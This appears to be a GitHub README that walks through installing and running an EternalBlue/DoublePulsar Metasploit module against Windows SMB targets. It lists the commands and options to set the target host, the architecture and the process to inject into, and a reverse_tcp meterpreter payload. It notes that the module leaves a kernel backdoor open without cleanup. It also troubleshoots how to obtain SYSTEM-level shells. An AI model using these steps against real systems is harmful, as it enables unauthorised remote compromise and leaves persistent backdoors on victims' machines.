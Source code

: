 # EternalBlue
ElevenPaths EternalBlue Metasploit module - works better than Rapid 7

EternalBlue module setup (credit to ElevenPaths for their fantastic module)

One thing I could never find was a full setup guide.  I had to piece this together from other sources and how I went about the setup
*One thing to note - this module leaves the backdoor open in the SMB kernel and does not perform cleanup*

# Installation Setup

	1.) git clone https://github.com/tnkrtaylorsldrspy/Eternalblue-Doublepulsar-Metasploit.git to the root directory
	2.) Place eternalblue-doublepulsar.rb file into the /.msf4/modules/exploits/windows/smb folder (mkdir -p to make it)
	3.) open terminal
	4.) dpkg --add-architecture i386 && apt-get update && apt-get install wine32
	5.) add directory in your home directory for mkdir -p .wine/drive_c
	6.)  (removed)
	7.) (removed)
	8.) open metasploit (msfconsole)
	9.) use exploit/windows/smb/eternalblue_doublepulsar (should tab autocomplete if you placed in proper directory)
	10.) set proper payload for arch (windows/x64/meterpreter/reverse_tcp vs windows/meterpreter/reverse_tcp)
	11.) show options
	12.) set DOUBLEPULSARPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	13.) set ETERNALBLUEPATH to directory your DEPS folder resides (default is root/Eternalblue-Doublepulsar-Metasploit/deps/)
	14.) set RHOST *target IP*
	15.) set TARGETARCHITECTURE *x86 or x64*
	16.) set TARGET *target OS - Windows 2008/7 down to 2003/XP*
	17.) set PROCESSINJECT *running process - use lsass.exe (x64) or svchost.exe (x86) or explorer.exe if user is logged in*

At this point, when you run this module for the very first time, wine will initialize and the exploit will fail stating that 
certain dependencies could not be run.  After the initialization, run the module again and all dependencies will be set up.  
The module should complete and if your target is vulnerable, it will open the back door and inject the auto-generated payload 
to the target.  This should bring back a meterpreter shell with system level access (NTAuthority/System).

# Troubleshooting
    Q. Why did my meterpreter shell die?
    A. Chances are you injected to a process that was unstable.  For example, lsass.exe is going to crash on x86.  A notification will usually appear on the user's desktop notifying them that Windows will restart in 1 minutes due to a fatal error.
    
    Q. The module fails when I try to run it.  It gives me output saying it could not find xxxx directory
    A. Make sure you have pointed your paths to wherever you have your /deps folder residing. It will also need sudo priviliges.
    
    Q. The exploit completed but no session was created!
    A. Multiple things could come into play here:
       a.) Some security feature may be preventing outbound access from the device (reverse tcp connection)
       b.) Your target arch doesn't match your payload
       
    Q. The exploit continues to ask me "are you sure the target is vulnerable?"
    A. Chances are the target isn't vulnerable or has been patched for the ms17-010 exploit. Ensure you've enumerated properly.
